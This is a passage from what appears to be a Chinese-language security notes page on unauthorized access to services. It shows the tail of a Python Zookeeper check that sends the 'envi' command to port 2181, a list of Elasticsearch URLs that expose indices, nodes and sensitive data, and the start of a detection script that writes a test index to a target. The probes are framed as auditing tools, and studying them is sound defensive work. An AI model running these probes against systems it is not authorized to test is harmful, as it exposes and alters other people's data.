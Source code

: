 ```
            s.connect((ip, int(port)))
            flag = "envi"
            # envi
            # dump
            # reqs
            # ruok
            # stat
            s.send(flag)
            data = s.recv(1024)
            s.close()
            if 'Environment' in data:
                return u"Zookeeper Unauthorized access"
        except:
            pass
    
    
    def main():
        ip = "1.1.1.1"
        print check(ip, 2181, 2)
    
    if __name__ == '__main__':
        main()
    
```

        

    https://github.com/ysrc/xunfeng/tree/master/vulscan/vuldb
    
        

* * *

###### Elasticsearch

默认端口：9200

    http://localhost:9200/_plugin/head/ 	web管理界面
    http://localhost:9200/_cat/indices
    htp:// localhost:9200/_river/_search	查看数据库敏感信息
    http://localhost:9200/_nodes 			查看节点数
    
        

脚本检测：

   
```
 # coding:utf-8
    # elasticsearch未授权检测脚本
    # author：ske
    # usage: python3 elasticsearch_unauth.py ip port
    # 默认端口9200
    # http://localhost:9200/_plugin/head/ web管理界面
    # http://localhost:9200/_cat/indices
    # http://localhost:9200/_river/_search 查看数据库敏感信息
    # http://localhost:9200/_nodes 查看节点数据
    
    import sys
    from elasticsearch import Elasticsearch
    import requests
    import json
    
    ip = sys.argv[1]
    port = int(sys.argv[2]) # 9200
    try:
        es = Elasticsearch("{}:{}".format(ip, port), timeout=5)  # 连接Elasticsearch,延时5秒
        es.indices.create(index='unauth_text')
        print('[+] 成功连接 ：{}'.format(ip))
```